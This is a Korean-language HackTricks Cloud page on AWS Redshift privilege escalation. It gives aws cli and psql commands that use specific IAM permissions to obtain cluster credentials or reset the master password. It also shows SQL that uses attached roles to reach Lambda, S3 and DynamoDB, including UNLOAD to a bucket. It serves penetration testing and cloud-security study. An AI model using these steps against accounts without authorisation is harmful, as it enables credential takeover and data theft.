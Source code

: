 # AWS - Redshift 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 될 때까지 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 요령을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>

## Redshift

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

이 권한을 사용하면 **모든 클러스터의 정보** (이름 및 클러스터 사용자 이름 포함)를 얻을 수 있으며 해당 클러스터에 액세스하기 위한 **자격 증명**을 얻을 수 있습니다:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보 찾기.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

이러한 권한을 사용하면 **모든 클러스터의 정보**를 얻을 수 있으며, **액세스 자격 증명**을 얻을 수 있습니다.\
IAM 신원을 사용하여 자격 증명을 얻는 데 사용된 권한을 가진 postgres 사용자가 있음을 유의하십시오.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내부에서 민감한 정보 찾기.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

내부 postgres (redshift) 사용자의 마스터 암호를 aws cli에서 **수정**할 수 있습니다 (필요한 권한은 아마도 이것들이지만 아직 테스트하지 않았습니다):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**잠재적 영향:** 데이터베이스 내부의 민감한 정보 발견.

## 외부 서비스 접근

{% hint style="warning" %}
모든 다음 리소스에 액세스하려면 **사용할 역할을 지정**해야 합니다. Redshift 클러스터에는 **사용할 수 있는 AWS 역할 목록**이 할당될 수 있으며, ARN을 알고 있다면 해당 역할을 사용할 수 있습니다. 그렇지 않으면 기본으로 할당된 것을 사용하려면 "**default**"를 설정할 수 있습니다.

또한, [**여기에서 설명된대로**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift는 역할을 연결하여 추가 액세스를 얻을 수 있도록 허용하지만, 그냥 **쉼표**로 **구분**하여 첫 번째 역할이 두 번째 역할을 가정할 수 있는 경우에만 가능합니다: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html)에서 설명된대로, redshift에서 람다 함수를 호출하는 것이 가능합니다.
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)에서 설명한 대로, **S3 버킷으로 읽고 쓸 수 있습니다**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html)에서 설명한 대로, **DynamoDB에서 데이터를 가져올 수** 있습니다:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
데이터를 제공하는 Amazon DynamoDB 테이블은 [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) 옵션을 사용하여 Amazon DynamoDB 테이블이 위치한 AWS 지역을 지정하지 않는 한 클러스터와 동일한 AWS 지역에 생성되어야 합니다.
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)를 확인하세요.

## 참고 자료

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 AWS 해킹을 전문가로 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하려면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
